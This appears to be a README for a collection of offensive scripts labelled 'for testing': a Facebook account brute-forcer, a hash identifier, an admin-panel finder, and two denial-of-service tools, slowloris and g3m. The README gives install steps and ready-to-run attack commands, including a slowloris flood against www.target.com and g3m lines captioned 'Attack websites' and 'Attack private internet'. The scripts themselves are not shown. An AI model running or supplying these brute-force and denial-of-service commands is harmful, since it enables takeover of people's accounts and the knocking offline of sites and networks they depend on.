 ########################
# Scripts for testing. #
########################

fb-brute.pl = Bruteforce for Facebook.
hash_id_v1.1.py = Hash Identifier
painel.pl = Admin Control Panel Finder
slowloris.pl = Denial of Service
g3m = Denial of Service

###########################
# How to Install and use. #
###########################

fb-brute.pl:
Intall = sudo chmod +x fb-brute.pl
Use = perl fb-brute.pl id-user-facebook wordlist.txt

hash_id_v1.1.py:
Install = sudo chmod +x hash_id_v1.1.py
Use = python2 hash_id_v1.1.py

painel.pl:
Install = sudo chmod +x painel.pl
Use = perl painel.pl

slowloris.pl:
Install = sudo chmod +x slowloris.pl
Use = Commands for attack:
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP

g3m:
Install = sudo chmod +x g3m
Use = Commands for Attack:
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites
